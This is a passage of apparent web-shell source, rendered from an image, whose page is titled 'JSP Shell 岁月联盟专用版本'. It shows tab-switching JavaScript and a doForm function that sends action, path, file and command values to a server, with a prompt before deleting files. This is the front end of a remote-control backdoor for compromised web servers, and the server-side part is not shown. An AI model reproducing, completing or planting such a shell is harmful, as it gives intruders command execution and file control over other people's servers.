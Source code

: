 ```
}

function highlighttab(aobject){
if (typeof tabobjlinks=="undefined")
collecttablinks()
for (i=0; i<tabobjlinks.length; i++)
tabobjlinks[i].style.backgroundColor=initTabcolor
var themecolor=aobject.getAttribute("theme")? aobject.getAttribute("theme") : initTabpostcolor
aobject.style.backgroundColor=document.getElementById("tabcontentcontainer").style.backgroundColor=themecolor
}

function collecttablinks(){
var tabobj=document.getElementById("tablist")
tabobjlinks=tabobj.getElementsByTagName("A")
}

function do_onload(){
collecttablinks()
initTabcolor=cascadedstyle(tabobjlinks[1], "backgroundColor", "background-color")
initTabpostcolor=cascadedstyle(tabobjlinks[0], "backgroundColor", "background-color")
expandcontent(initialtab[1], tabobjlinks[initialtab[0]-1])
}

if (window.addEventListener)
window.addEventListener("load", do_onload, false)
else if (window.attachEvent)
window.attachEvent("onload", do_onload)
else if (document.getElementById)
window.onload=do_onload



</script>
<script language="javascript">

function doForm(action,path,file,cmd,tab,content)
{
 document.frmCqq.action.value=action;
 document.frmCqq.path.value=path;
 document.frmCqq.file.value=file;
 document.frmCqq.cmd.value=cmd;
 document.frmCqq.tabID.value=tab;
 document.frmCqq.content.value=content;
 if(action=="del")
 {
  if(confirm("确定要删除文件 "+file+" 吗？"))
  document.frmCqq.submit();
 }
 else
 {
  document.frmCqq.submit();
 }
}
</script>

<title>JSP Shell 岁月联盟专用版本</title>
<head>

<body>

<form >
<input type="hidden" >
```